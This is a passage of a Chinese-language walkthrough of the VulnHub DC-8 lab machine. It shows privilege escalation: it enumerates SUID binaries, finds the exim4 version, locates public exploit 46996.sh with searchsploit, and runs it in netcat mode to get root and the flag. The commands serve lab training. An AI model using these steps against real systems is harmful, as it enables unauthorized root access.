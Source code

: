 在查看当前靶机内的用户，发现`dc8user`，但是其家目录下，没有任何有用的东西

使用`find`寻找具有SUID权限的文件

```shell
find / -perm -u=s -type f 2>/dev/null
```

![](D:\stu\vulnhub\DC靶场\pic-8\28.jpg)

使用命令，查看`exim4`的相关信息

```shell
which exim4
/usr/sbin/exim4 --version
```

![](D:\stu\vulnhub\DC靶场\pic-8\29.jpg)

在`kali`中，另起终端，使用`searchsploit`寻找相关版本漏洞

```shell
searchsploit exim 4.8 privilege
```

![](D:\stu\vulnhub\DC靶场\pic-8\30.jpg)

发现有一个在范围内的

![](D:\stu\vulnhub\DC靶场\pic-8\31.jpg)

为了防止不必要的麻烦，靶机切换到`/tmp`目录

![](D:\stu\vulnhub\DC靶场\pic-8\32.jpg)

该脚本两种用法，可以通过查看脚本进行查看

```shell
bash 46996.sh -m setuid
bash 46996.sh -m netcat
```

![](D:\stu\vulnhub\DC靶场\pic-8\33.jpg)

最终经过测试，只有一种方式可以提权成功

```shell
chmod +x 46996.sh
./46996.sh -m netcat
```

![](D:\stu\vulnhub\DC靶场\pic-8\34.jpg)

查看最终`flag`

![](D:\stu\vulnhub\DC靶场\pic-8\35.jpg)


